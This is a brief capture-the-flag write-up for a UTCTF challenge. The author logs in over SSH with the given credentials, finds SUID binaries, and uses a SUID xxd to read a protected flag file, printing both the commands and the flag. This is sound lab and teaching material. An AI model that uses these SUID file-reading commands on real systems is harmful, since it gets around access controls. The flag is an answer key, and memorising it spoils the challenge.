

# Trapped in Plain Sight 1

Just try to read my flag. 0x0

The password is `password`.

by Caleb (@eden.caleb.a on discord)

`ssh -p 4301 trapped@challenge.utctf.live`

---

The challenge provied a SSH connect with the password is `password` 🫠

I have to read the `flag.txt` file, but only `noaccess` can read and write. However, I'm `trapped` (actually I'm cuyt)

# Solution

Tried to find any file have SUID permission  
`find / -perm -4000 2>/dev/null`

Here we go, `xxd` has SUID permission

I ran `xxd -p /home/trapped/flag.txt | tr -d '\n' | xxd -r -p` and...

# Flag: `utflag{SpeciaL_Permissionz}`
